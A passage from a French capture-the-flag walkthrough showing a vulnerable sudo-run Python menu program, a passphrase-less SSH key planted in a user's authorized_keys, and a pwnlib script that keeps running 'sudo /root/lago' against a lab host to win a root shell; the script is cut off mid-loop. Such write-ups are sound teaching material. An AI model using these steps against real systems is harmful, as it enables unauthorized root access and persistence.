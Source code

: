 ```python
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'


if __name__ == '__main__':
    main(options())
```

Et `sam` peut, via une entrée sudo, exécuter le programme `/root/lago` qui correspond à ce code (on le voit lorsque l'on lance le programme avec sudo car sinon les permissions ne permettent pas de lire le fichier).

Il faut donc lancer l'exécutable et saisir un nombre entre 1 et 100 inclus jusqu'à ce qu'on ait suffisemment de chance pour obtenir notre shell.

J'ai décidé de mettre en oeuvre une solution automatisée mais pour cela il faut d'abord que je créé une clé SSH sans passphrase et je placerais la partie publique dans le `authorized_keys` de l'utilisateur :

```bash
ssh-keygen -b 2048 -t rsa -f key_no_pass -q -N ""
```

De cette façon je pourrais utiliser `pwnlib` pour accéder au compte SSH. Le code suivant va alors lancer la commande sudo et donner le chiffre *50* jusqu'à ce qu'il obtienne autre chose que le message d'échec. A ce moment il passe en interactif pour que je puisse utiliser le shell :

```python
from pwnlib.tubes.ssh import ssh                                                                                       

ssh_sess = ssh(host="192.168.242.133", user="sam", keyfile="key_no_pass")                            
while True:                                                                                                            
    p = ssh_sess.process(["sudo", "/root/lago"], tty=True)                                                             
    p.recvuntil(b"Enter your choice:")                                                                                 
    p.sendline(b"2")                                                                                                   
    p.recvuntil(b"Choose a number between 1 to 100:")                                                                  
```